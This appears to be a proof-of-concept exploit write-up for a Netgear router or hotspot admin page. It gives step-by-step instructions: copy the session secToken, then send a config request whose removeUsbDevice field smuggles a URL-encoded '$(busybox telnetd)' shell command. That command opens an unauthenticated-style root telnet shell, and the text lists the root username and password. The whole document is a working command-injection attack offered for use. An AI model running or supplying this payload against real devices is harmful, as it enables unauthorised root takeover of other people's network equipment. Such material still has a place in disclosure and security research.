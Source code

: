 * 1. Login to the administrative page (http//192.168.1.1, by default)
* 2. Navigate to http://192.168.1.1/js/NetgearStrings.js
* 3. Search for `secToken` and copy its value
* 4. Place your secToken at the end of the equals sign and run the injection command in your browser:
`http://192.168.1.1/Forms/config?ready.deviceShare.removeUsbDevice=%3B%24(busybox%20telnetd)%3B&err_redirect=/error.json&ok_redirect=/success.json&token=`. 
* 5. The root shell is exposed via telnet (192.168.9.9:23)

Username is root

Password is oelinux123
